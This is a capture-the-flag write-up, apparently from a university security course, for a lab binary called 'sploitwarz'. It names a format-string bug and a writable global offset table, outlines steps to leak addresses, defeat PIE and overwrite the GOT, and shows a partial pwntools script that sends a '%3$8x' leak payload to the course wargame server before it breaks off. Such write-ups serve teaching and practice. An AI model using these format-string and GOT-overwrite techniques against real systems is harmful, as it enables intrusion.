 `6447{31c83bef-e49b-4104-bdeb-bae408e8ef84}`


sploitwarz
===========================

General overview of problems faced
-------------------------------------
- Learn how to beat ASLR and PIE
- Had to relearn how the procedure linkage table and global offset table

List of vulnerabilities
------------------------
1. Used printf which can lead to format string exploit when submitted data of an input string is evaluated as a command by the application
2. The global offset table is writable which can result in a code redirection.

Steps to exploit
------------------
1. Disassemble the code and notive that it has many functions within it. But the most important functions is present is do_gamble as it contains a vulnerable printf.
2. Using checksec notice that PIE is enabled.
3. To find the leaked stack address use %3$8x as your handle.
4. To get the leaked address win the gamble by choosing the option that isn't a fibonacci number
5. Calculate the base address then pad each byte in order to do a format string attack
6. Change the handle again to the exploit created
7. Gamble and win again to overwrite the GOT and record the flag

Script/Command used
------------------
```
#!/usr/bin/python

from pwn import *

# Open connection
# context.log_level = 'DEBUG'
#p = process(['./sploitwarz'])
p = remote('wargames.6447.sec.edu.au', 7003)

# Calculate the fibonacci sequence to beat 'gamble'
def calc_fibSeq():
    seq = [0]
    a, b = 0, 1
    while (len(seq) < 20):
        seq.append(b)
        a, b = b, a + b
    return seq

# Required offsets
win_addr = 0x155c
leak_addr = 0x209f
gamble_addr = 0x1f7a
printf_addr = 0x4cb8
stack = 9

# Get the leaked stack address
p.recvuntil("what's your handle?\n")
p.sendline('%3$8x')
p.recvuntil("What will you do? ")
p.sendline("g")
p.recvuntil("):")
p.sendline("0.0001")
p.recvuntil("one out:\n")

# Beat gamble to grab stack leak
```